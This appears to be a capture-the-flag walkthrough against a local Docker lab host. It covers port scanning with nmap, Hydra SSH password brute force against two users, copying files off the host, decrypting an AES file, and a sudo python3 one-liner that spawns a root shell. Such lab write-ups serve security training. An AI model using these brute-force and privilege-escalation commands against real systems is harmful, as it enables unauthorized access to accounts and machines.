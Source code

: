 ![image](https://github.com/user-attachments/assets/0fbe2e6c-c42a-4c45-8b6d-a0d4dbeb880a)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250123113525](https://github.com/user-attachments/assets/bfd64cb4-66c0-4d4a-ba0e-2cb23d44ce5d)

## **we have port 80 enabled then proceed to search the web for information and source code**

![Pasted image 20250123113638](https://github.com/user-attachments/assets/26df8312-1eda-41cd-9c37-11754674f598)
![Pasted image 20250123113653](https://github.com/user-attachments/assets/bba6a835-e2e2-44f2-a368-6a50eee69255)

## **we can deduce that there is a user named “a” and we will do a brute force attack on port 22 where the SSH service runs**

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Pasted image 20250123114002](https://github.com/user-attachments/assets/38efaa8f-f9cd-431c-85ba-d26d00c0ac7c)

# **we will connect**

```bash
ssh a@172.17.0.2
```
![Pasted image 20250123114130](https://github.com/user-attachments/assets/0b846b22-da3b-44dc-a3b3-51524d738c15)

## **we will do a search of the files but we do not find any information but we know that all the information about servers is stored in /srv, we forgot to say that we do not have privileges to do a privilege escalation**

![Pasted image 20250123115133](https://github.com/user-attachments/assets/185e11bb-aa21-4f0c-8c33-a90b1724e682)

## **let's download all the information from that folder to investigate.**

```bash
scp a@172.17.0.2:/srv/ftp/mensaje_hash.txt . 
```
![Pasted image 20250123135545](https://github.com/user-attachments/assets/9db402ed-c01b-4d31-9083-d0342e396f4d)

## **we already have the files locally**

![Pasted image 20250123140805](https://github.com/user-attachments/assets/04590f36-555d-4a80-a6db-a407c63e183b)
![Pasted image 20250123140837](https://github.com/user-attachments/assets/498b7130-0841-41a4-84b4-b70f8b959c03)
![Pasted image 20250123140907](https://github.com/user-attachments/assets/3eaaf8ac-9023-44d7-8970-49999bd27150)
thisisaverysecretkey!

![Pasted image 20250123140934](https://github.com/user-attachments/assets/423f66f1-c52d-4e27-98f2-7d1dc90281a6)
890b787e76e086d3d76b3a5e9d6a7778

![Pasted image 20250123141049](https://github.com/user-attachments/assets/27de2cd5-3597-4498-830a-51585d9cc782)
7c6a180b36896a0a8c02787eeafb0e4c

![Pasted image 20250123141128](https://github.com/user-attachments/assets/04e91b1a-7460-4244-b9e6-0e6964898340)
![Pasted image 20250123141152](https://github.com/user-attachments/assets/998ac711-9cb8-4539-bc2e-5ef90fd8f7ab)
![Pasted image 20250123141314](https://github.com/user-attachments/assets/93176acd-21ef-4e75-ae95-bc834d15d932)

## **this is the info we have collected from the .txt files but one in particular says to decrypt a file with AES**
```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```
![Pasted image 20250123142100](https://github.com/user-attachments/assets/81875fe1-63e3-4625-b40c-036b5fd32bce)

## **we found nothing we are going to use the user encointrado to do brute force**

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Pasted image 20250123142431](https://github.com/user-attachments/assets/6bbd8709-852d-4ec8-ac22-a0b1c0800a37)

```bash
ssh spencer@172.17.0.2
```
![Pasted image 20250123142550](https://github.com/user-attachments/assets/7e130557-88d6-4061-b21c-9680d923f704)

```bash
sudo -l
```
![Pasted image 20250123142619](https://github.com/user-attachments/assets/9468a998-e2c5-4237-826e-e5da75b8a781)
![Pasted image 20250123142719](https://github.com/user-attachments/assets/dcbb9ee5-bc85-4d6c-835b-ba3718767e19)

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```
![Pasted image 20250123142755](https://github.com/user-attachments/assets/e05219c3-270a-4fad-be23-97d10525cfc7)

